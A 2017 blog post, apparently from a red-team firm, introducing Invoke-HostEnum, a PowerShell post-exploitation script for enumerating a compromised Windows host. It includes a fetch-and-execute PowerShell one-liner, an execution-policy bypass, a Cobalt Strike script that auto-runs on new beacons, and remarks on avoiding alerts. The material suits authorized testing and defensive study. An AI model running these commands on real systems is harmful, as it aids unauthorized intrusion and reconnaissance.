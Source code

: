# HostEnum - A PowerShell Host Situational Awareness Tool

**Andrew Chiles | May 2, 2017 | Tweet This Post: [:fa-twitter:](https://twitter.com/intent/tweet?url=http://threatexpress.com/2017/05/blogs/invoke_hostenum/&text=Invoke-HostEnum)**

## Overview

During a Red Team engagement, performing detailed Situational Awareness (SA) or enumeration on initial and subsequent host compromises is vital. Every good pen-tester or red teamer has their list of go-to scripts, commands, or "pasties" to run once initial shell access is achieved. The goal is to quickly learn as much about your environment as possible; including defenses, system configuration, interesting files, and opportunities for persistence and lateral movement. Moreover, when working in large and/or distributed teams, a common tool-base and procedure set is crucial to ensure that necessary enumeration is accomplished no matter who's behind the keyboard.

The first shell is often achieved on a host running the Microsoft Windows Operating System after a phishing/social-engineering attack or Web Application exploit. This makes PowerShell an excellent choice for automating post-exploitation and SA tasks. **Invoke-HostEnum** is a PowerShell 2.0 compatible enumeration script intended to be executed through a remote access capability such as Cobalt Strike's Beacon, Empire, or even a web-shell. All output is pre-formatted into Tables or Lists and converted to a string before returning results for this reason. Earlier internal versions of the script contained many more privilege escalation checks, but the continued development and robustness of [PowerUp][1] made these mostly redundant.

There are several good examples of PowerShell host enumeration tools including[ HostRecon][2] by Beau Bullock and [Invoke-WinEnum][3] in PowerShell Empire. Invoke-HostEnum borrows functions from these and other modules annotated throughout its source.  There was a similarly named Invoke-HostEnum function in PowerView that was [removed][4] in 2015, but this is not a resurrected version.

I've started to remove many (but not all) binary dependencies to avoid triggering potential alerts from running numerous common built-in Windows command-line enumeration tools in rapid succession. However, there is always room for improvement and contributions and suggestions to the Github repository are highly encouraged!

## Features

The following is a comprehensive list of the items currently enumerated by Invoke-HostEnum. Some enumerations functions require local administrator rights for best results and will result in no or limited results when run under a limited user context.

* OS Details, Hostname, Uptime, Installdate, Architecture
* Installed Applications and Patches
* Network Adapter Configuration, Network Shares, Connections, Routing Table, DNS Cache
* Running Processes (with full command line) and Installed Services
* Interesting Registry Entries (SNMP strings, Saved Putty Sessions)
* Local Users, Groups, and Administrators
* Personal Security Product Status
* Interesting file locations (Current User Profile) and keyword searches via file indexing
* Recycle Bin Contents
* Interesting Windows Logs (Get-ComputerDetails – Logon Events, AppLocker logs, PowerShell logs, RDP servers)
* Basic Domain enumeration (users, groups, trusts, domain controllers, account policy, SPNs)-Explicit Credential Logons (Event ID 4648)

As usual, you can get the latest version of tools on our GitHub repository.

## Usage

### Command Line

Execute locally hosted script with console output
    
```
powershell -ep bypass -c Import-Module ./Invoke-HostEnum.ps1; Invoke-HostEnum -Local -Domain
``` 

Download and execute remotely hosted script

```
powershell -nop -c IEX (New-Object Net.Webclient).downloadstring("""http://yourdomain/Invoke-HostEnum.ps1""");Invoke-HostEnum -Local
```

Execute locally hosted script with HTML report output. If you want the mostly easily readable format and don't mind writing a file to disk, consider using the "-Path" option to specify a directory for an HTML formatted report
    
```    
powershell -ep bypass -c Import-Module ./Invoke-HostEnum.ps1; Invoke-HostEnum -Local -Path c:programdata
```
![Invoke-HostEnum HTML Report][5] **Invoke-HostEnum HTML Report**

### Cobalt Strike

Import script and execute interactively in a Beacon console
    
```
powershell-import ./scripts/Invoke-HostEnum.ps1
powershell Invoke-HostEnum -Local -Domain
```

Automatic execution – Use [aggressor][6] script to fire upon new beacon arrivals. This is ideal to implement on your initial interactive/phishing callback Team Server where you want to gather information in the target environment and may be away from the console. Consider combining with a Slack notification script as described in our previous post [Slack Notifications for Cobalt Strike ][7]or as thoroughly explained by Jeff Dimmock in [Slack Bots for Trolls and Work][8]. **Note:** This code would require slight modification to work for DNS beacons if desired.
    
```bash    
on beacon_initial {
    enumerate($1);
}

sub enumerate {
    if ( -exists script_resource("scripts/Invoke-HostEnum.ps1")) {
    binput($1,"[*] Executing Invoke-HostEnum");
    bpowershell_import($1, script_resource("scripts/Invoke-HostEnum.ps1"));
    bpowershell($1, "Invoke-HostEnum -Local -Domain");
    }
    else {
    berror($1, "Invoke-HostEnum.ps1 does not exist");
    }
}
```    

![][9] **Invoke-HostEnum Execution in Cobalt Strike**

### **PowerShell Empire**

I've also created a basic post-exploitation module for Empire (hostenum.py) that makes executing on an Empire agent extremely easy.

Copy scripts to the appropriate Empire path
    
```
cp Invoke-HostEnum.ps1 /data/module_source/situational_awareness/host
cp hostenum.py /lib/modules/situational_awareness/host
```

Start Empire
    
```    
# ./empire
```

Interact with agent
    
```    
(Empire) > interact 
```

Execute the module
    
```    
(Empire: BX1HBE3MZAWGF1BB) > usemodule situational_awareness/host/hostenum
(Empire: situational_awareness/host/hostenum) > run
```    

![][10] **Invoke-HostEnum Empire Module**


* * *

## Credits

Several functions are inspired or pulled directly from the following projects and are referenced in the code where applicable. Any omissions are not intentional. Thanks to the following authors and projects for the great work!

* * *

## Want to learn more about Red Teaming?

![Red Team Operation and Threat Emulation][11]

Check out the new SANS Red Team course written by MINIS' own Joe Vest and James Tubberville

SEC 564 Red Team Operation and Threat Emulation 

[1]: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
[2]: https://raw.githubusercontent.com/dafthack/HostRecon/master/HostRecon.ps1
[3]: https://github.com/EmpireProject/Empire/tree/master/data/module_source/situational_awareness/host
[4]: http://www.harmj0y.net/blog/redteaming/powerview-2-0/
[5]: /img/hostenum_console_html.png
[6]: https://www.cobaltstrike.com/aggressor-script/index.html
[7]: http://threatexpress.com/2016/12/slack-notifications-for-cobalt-strike/
[8]: https://bluescreenofjeff.com/2017-04-11-slack-bots-for-trolls-and-work/
[9]: /img/hostenum_cs.gif
[10]: /img/hostenum_empire1.png
[11]: /img/sanslogo.png

  